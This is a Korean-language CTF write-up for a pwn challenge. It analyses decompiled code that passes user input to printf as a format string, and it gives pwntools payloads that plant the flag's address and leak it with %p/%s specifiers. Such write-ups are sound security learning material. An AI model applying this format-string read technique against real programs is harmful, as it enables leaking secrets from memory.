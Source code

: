 ## 함수 분석 / 취약점 발견
문제 설명 그대로, binary에 실제 flag 값이 존재했다. 이를 출력할 수 있으면 참 좋을것 같다.
```
gdb-peda$ x/1s 0x601080
0x601080 <flag>:	"FLAG{_the_real_flag_will_be_here_}"
```
### IDA decompile analysis
```c++
  *((_BYTE *)&buf + (int)(read(0, &buf, 0x10uLL) - 1)) = 0;
  if ( (_BYTE)buf != 121 && (_BYTE)buf != 89 )
    return 0;
  src = (char *)malloc(0x84uLL);
  printf("Name: ");
  read(0, src, 0x80uLL);
  strcpy(usr, src);
  printf("Welcome ");
  printf(qword_601160, usr);
```
* buffer에 byte검사밖에 이루어지지 않으므로 buffer에 y에 이어 다양한 값을 입력할 수 있다.
* buffer에 flag의 주소를 입력한후, usr에 %s를 입력해서 %s format string이 flag의 주소를 가르키면 flag을 출력할 수 있을것이다.

## 구현
1. flag 주소 입력
* buffer에 정확히 16byte만큼 입력해줄 수 있어 주소를 입력하는데 제한이 없다
* y 뒤에 1을 7개 붙임으로써 format string attack시 4바이트 규격에 맞게 flag 주소가 전달되도록 하자
```python
p.recvuntil(': ')
payload = b'y1111111' + p32(0x601080)
p.sendline(payload)
p.recvuntil(': ')
```
2. format string 입력
* format string의 모든 곳에 %p를 걸어보고 그 뒤에 0x601080이 뜨는곳만 %s로 바꿔주면 flag가 출력된다.
```python
payload = b'a'*32 +b'%p  '*8 + b'%s  ' + b'%p  '*7 + b'a'*33

p.send(payload)
p.recvuntil('Welcome ')
log.info('recieved :')

log.info(p.recv())
```